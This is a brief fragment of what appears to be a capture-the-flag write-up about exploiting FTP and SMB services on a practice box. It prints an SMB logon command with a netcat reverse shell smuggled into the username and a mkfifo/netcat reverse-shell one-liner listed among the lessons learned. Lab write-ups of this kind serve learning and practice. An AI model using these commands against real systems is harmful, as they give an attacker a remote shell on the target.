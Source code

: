 ```bash
smb: \> logon "./=`nohup nc 10.10.14.13 9001 -e /bin/bash`"
```

# Key Lessons

Here are some of the key things I learned on this box:
- Use of telnet to communicate over a network
- Enumeration of both FTP and SMB
- Two new exploits - one for FTP, one for SMB
- The `mkfifo /tmp/hago; nc [IP] [PORT] 0</tmp/hago | /bin/sh >/tmp/hago 2>&1; rm /tmp/hago` shell